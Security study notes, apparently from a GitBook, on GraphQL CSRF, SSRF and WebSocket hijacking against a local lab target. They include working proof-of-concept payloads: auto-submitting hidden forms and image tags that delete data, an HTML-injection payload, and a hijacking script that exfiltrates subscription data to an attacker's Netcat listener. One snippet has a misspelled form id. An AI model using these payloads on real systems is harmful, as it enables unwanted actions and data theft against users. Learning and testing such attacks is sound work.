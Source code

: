# REQUEST FORGERY AND HIJACKING

**Cross-Site Request Forgery (CSRF)**

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption><p>The flow of a CSRF attack</p></figcaption></figure>

* CSRF attacks target clients by forcing them to perform unwanted actions.
* These actions are usually state-changing, such as updating a user's email or password, transferring money, or disabling security settings.
* CSRF takes advantage of the fact that browsers send necessary information, like session cookies, in every HTTP request to a site, and web servers cannot differentiate between legitimate and malicious requests.
* **HTML forms can use only GET and POST methods**.
* An attacker can use a crafted HTML form to make a request to a vulnerable application by tricking a user.
* CSRF attacks are limited to the actions a victim is allowed to perform.
* **GraphQL servers sometimes support operations over GET**, and they might intentionally reject GET-based mutations to allow read operations using GET only. If a target uses any GET-based queries to perform state changes, that is a vulnerability.
* To prevent CSRF, applications should implement **anti-CSRF tokens**, which are unique, unpredictable values included in requests that the server verifies.

#### **Locating State-Changing Actions**

* Mutation field names can be extracted using an introspection query.
* State-changing actions such as `createUser`, `importPaste`, `editPaste`, `uploadPaste`, `deletePaste`, and `createPaste` can be identified through introspection.
* Queries can also perform state-changing actions, for example, a `deleteAllPastes` query.

The introspection query shown in should return the mutation fields that exist in a schema

{% code overflow="wrap" %}
```graphql
# Introspection query to extract mutation field names
query {
    __schema {
        mutationType {
            fields {
                name
            }
        }
    }
}
--------------------------------
# Introspection query to extract query field names
query {
    __schema {
        queryType {
            fields {
                name
            }
        }
    }
}
```
{% endcode %}

#### **Testing for POST-Based Vulnerabilities**

* A crafted HTML form can be used to perform a POST-based CSRF attack.
* A hidden input tag ensures the form remains invisible to the victim.

{% code overflow="wrap" %}
```html
<html>
<h1>Click the button below to see the proof of concept!</h1>
    <body>
        <form id="auto_submit_form" method="POST" action="http://localhost:5013/graphql">
            <input type="hidden" name="query" value="mutation { createPaste(title:&quot;CSRF&quot;,content:&quot;content&quot;,public:true, burn: false) { paste { id content title burn }}}"/>
            <input type="submit" value="Submit">
        </form>
    </body>
<html>
------------------------------------
//  Automatic form submission with JavaScript
async function csrf() {
    for (let i = 0; i < 2; i++) {
    await sleep(i * 1000);
    }
    document.forms['auto_submit_for'].submit();
}
```
{% endcode %}



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

#### **Testing for GET-Based Vulnerabilities**

* GET-based CSRF attacks involve sending a malicious link to a victim.
* GET requests with state-changing queries can be exploited via HTML injection.

{% code overflow="wrap" %}
```bash
curl -X GET "http://localhost:5013/graphql?query=mutation%20%7B%20__typename%20%7D"

{"errors":[{"message":"Can only perform a mutation operationfrom a POST request."}]}

<a href="http://localhost:5013/graphql?query=mutation{someSensitiveAction}"/>
<img src="http://localhost:5013/graphql?query=mutation{someSensitiveAction}"/>    
-----------------------
// To perform such a CSRF attack, this HTML file uses <form> tags to
// submit the query. JavaScript code defined using the <script> HTML tags
// makes the request automatically, as soon as the victim loads the page:

<html>
    <body>
        <h1>This form is going to submit itself in 2 seconds...</h1>
        <form id="auto_submit_form" method="GET" action="http://localhost:5013/graphql">
        <input type="hidden" name="query" value="query { deleteAllPastes }"/>
        <input type="submit" value="Submit">
    </form>
    </body>
    <script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    async function csrf() {
        for (let i = 0; i < 2; i++) {
            await sleep(i * 1000);
        }
        document.forms['auto_submit_form'].submit();
    }
    csrf();
    </script>
<html>
------------
// GET-based CSRF using image tags
<html>
    <body>
        <h1>GET-based CSRF using an image tag</h1>
        <img src="http://localhost:5013/graphql?query={deleteAllPastes}" style="display: none;" />
    </body>
</html>
-------------------------
// Using HTML Injeciton
mutation {
    createPaste(content:"<img src=\"http://localhost:5013/graphql?query= {deleteAllPastes }\" </img>", title:"CSRF using image tags", public: true,burn: false) {
        paste {
            id
            content
        }
    }
}
```
{% endcode %}

#### Automating Testing with BatchQL and GraphQL Cop

```bash
python3 batch.py -e http://localhost:5013/graphql | grep -i "CSRF"
python3 graphql-cop.py -t http://localhost:5013/graphql | grep -i "CSRF"
```

The SameSite Flag



### **Server-Side Request Forgery (SSRF)**

* SSRF attacks target servers, aiming to obtain sensitive data, probe for internal services, make internal requests to restricted networks, or access cloud environment information.
* SSRF allows attackers to forge requests on behalf of servers.
* **An SSRF vulnerability can give an attacker access to services they otherwise wouldn't be able to reach directly**.
* This includes **cross-site port attacks (XSPA)**, where a server makes a request to an internal port that isn't directly accessible.
* Preventing SSRF involves sanitizing and validating user input in request fields and limiting the scope of request operations.

**Cross-Site WebSocket Hijacking (CSWSH)**

* CSWSH involves stealing another user's session via WebSocket connections.
* WebSocket handshakes can be hijacked if they lack anti-CSRF tokens, enabling attackers to forge messages using the victim's authenticated session.
* Attackers can exfiltrate GraphQL subscription responses via CSWSH.
* A WebSocket connection handshake is initiated over HTTP and may include cookies for authentication.
* Introspection can be used to identify subscription field names.
* To simulate a CSWSH attack, an attacker can set up a Netcat listener to receive exfiltrated data after a victim is tricked into loading malicious code.

```html
// Recon
query {
    __schema {
        subscriptionType {
            fields {
                name
            }
        }
    }
}
---------------------------------

// JavaScript code that performs WebSocket hijacking
<html>
    <h2>WebSockets Hijacking and GraphQL Subscription Response Exfiltration Demo</h2>
</html>
<script>
    const GQL = {
        CONNECTION_INIT: 'connection_init',
        CONNECTION_ACK: 'connection_ack',
        CONNECTION_ERROR: 'connection_error',
        CONNECTION_KEEP_ALIVE: 'ka',
        START: 'start',
        STOP: 'stop',
        CONNECTION_TERMINATE: 'connection_terminate',
        DATA: 'data',
        ERROR: 'error',
        COMPLETE: 'complete'
    }
    ws = new WebSocket('ws://localhost:5013/subscriptions');
    ws.onopen = function start(event) {
        var query = 'subscription getPaste {paste { id title content ipAddr userAgent public owner {name} } }';
        var graphqlMsg = {
            type: GQL.START,
            payload: {query}
        };
        ws.send(JSON.stringify(graphqlMsg));
    }
    ws.onmessage = function handleReply(event) {
        data = JSON.parse(event.data) 
        fetch('http://localhost:4444/?'+ JSON.stringify(data), {mode: 'no-cors'}); 
    }
</script>
```

